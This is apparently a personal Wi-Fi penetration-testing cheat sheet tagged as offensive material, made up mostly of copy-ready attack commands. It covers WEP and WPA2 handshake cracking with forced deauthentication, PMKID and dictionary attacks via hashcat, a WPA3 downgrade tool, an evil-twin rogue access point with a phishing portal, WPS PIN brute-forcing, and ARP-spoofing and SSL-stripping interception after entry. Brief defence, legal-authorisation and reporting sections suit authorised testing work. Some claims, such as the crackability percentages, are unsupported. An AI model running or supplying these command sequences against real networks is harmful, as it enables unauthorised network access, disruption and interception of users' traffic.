 ## **1. Understanding Wi-Fi Security Protocols**
### **Protocol Evolution & Vulnerabilities**
| Protocol | Year | Encryption | Vulnerabilities          | Crackability     |
| -------- | ---- | ---------- | ------------------------ | ---------------- |
| WEP      | 1997 | RC4        | IV Collisions, Weak Keys | 100% (Minutes)   |
| WPA      | 2003 | TKIP/RC4   | WPA-TKIP Attacks         | 95% (Hours)      |
| WPA2     | 2004 | CCMP/AES   | KRACK, PMKID             | 70% (Dictionary) |
| WPA3     | 2018 | GCMP/SAE   | Dragonblood              | 30% (Advanced)   |

**Key Insight:** Always prioritize WPA3/WPA2-Enterprise over personal PSK when possible.

## **2. Essential Tools Setup**
### **Hardware Requirements**
- **Recommended Adapters**:
	- Alfa AWUS036ACH (802.11ac)
- **Antennas**: 
	- Alfa ARS-N19 (Indoor/All-Around)
	- Alfa APA-M25 (Outdoor/Targeted)
- USB 3.0 Extension + Mount

### **Arch Preparation**
```bash
sudo pacman -Sy aircrack-ng hashcat hcxdumptool bully reaver
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
```

## 3. Identify Target
### Using `airodump-ng`
```bash
sudo airodump-ng wlan0mon
```
- Look under the **"Prot"** or **"ENC"** column.
- It shows things like:
    - `WPA2` – encryption
    - `CCMP` – cipher
    - But for protocol version: check **channel width and speed** too.
- Combine with the **"HT"** / **"VHT"** / **"HE"** flags:
    - `HT` → **802.11n**
    - `VHT` → **802.11ac**
    - `HE` → **802.11ax (Wi-Fi 6)**

### Using `iw dev` and `iwlist`
```bash
iw dev wlan0 scan | grep -A 20 'SSID: TargetWiFi'
```
Look for:
- `HT capabilities:` → 802.11n
- `VHT capabilities:` → 802.11ac
- `HE capabilities:` → 802.11ax

## **4. Attack Methodology**

### **A. WEP Cracking (Obsolete but Found in Legacy Systems)**
```bash
# Step 1: Put interface in monitor mode
sudo airmon-ng start wlan0

# Step 2: Capture IVs (Packet Injection Recommended)
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Step 3: Crack with aircrack
aircrack-ng -b 00:11:22:33:44:55 capture-01.cap
```
**Time Estimate**: 2-15 minutes with active traffic

### **B. WPA/WPA2 PSK Attacks**

#### **1. Handshake Capture**
```bash
# Capture beacon frames
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Deauth to force handshake
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c ClientMAC wlan0mon

# Verify handshake
aircrack-ng -J verify handshake-01.cap
```

#### **2. Dictionary Attack**
```bash
# Using aircrack
aircrack-ng -w rockyou.txt handshake-01.cap

# Using hashcat (faster)
hcxpcapngtool -o hash.hc22000 handshake-01.cap
hashcat -m 22000 hash.hc22000 rockyou.txt
```

#### **3. PMKID Attack (No Clients Needed)**
```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool -z pmkid.hash capture.pcapng
hashcat -m 16800 pmkid.hash -a 3 ?d?d?d?d?d?d?d?d
```

### **C. WPA3 Attack Surface**
**Dragonblood Vulnerabilities**:
- SAE side-channel attacks
- Downgrade to WPA2

```bash
sudo dragonforce -i wlan0mon -b 00:11:22:33:44:55 -w wordlist.txt
```

## **5. Advanced Techniques**

### **A. Evil Twin Attacks**
```bash
# Create rogue AP
sudo airbase-ng -a 00:11:22:33:44:55 --essid "FreeWiFi" -c 6 wlan0mon

# Phishing portal integration
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### **B. WPS PIN Attacks**
```bash
# Using reaver
reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -K 1

# Using bully (faster)
bully -b 00:11:22:33:44:55 wlan0mon -p 12345670
```

## **6. Defense Strategies**

### **Enterprise Best Practices**
```bash
# RADIUS Configuration Example (FreeRADIUS)
eap {
    default_eap_type = peap
    timer_expire = 60
    ignore_unknown_eap_types = no
}
```

### **Personal Network Hardening**
```bash
# Hostapd Config Snippet
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=ComplexP@ssw0rd!
```

## **7. Legal Considerations**

**Always obtain written permission** before testing any network. Recommended legal clause:
```
This assessment is authorized by {Organization} from {StartDate} to {EndDate}.
Testing limited to SSIDs: {List_of_SSIDs}.
All activities logged for audit purposes.
```

## **8. Post-Exploitation**

### **Network Mapping**
```bash
nmap -Pn -sV -O 192.168.1.0/24
```

### **MITM Techniques**
```bash
sudo arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
sudo sslstrip -l 8080
```

## **9. Reporting Template**

**Findings Summary**:
```
1. WPA2-PSK Vulnerability (Critical)
   - Captured handshake in 2 minutes
   - Cracked password in 4 hours (8-char lowercase)

2. WPS Enabled (High)
   - PIN brute-forced in 6 hours

3. Rogue AP Detection (Medium)
   - No enterprise authentication observed
```

**Remediation Plan**:
1. Migrate to WPA3-Enterprise with 802.1X
2. Disable WPS immediately
3. Implement wireless intrusion detection

---

**Tags:** #Offensive 
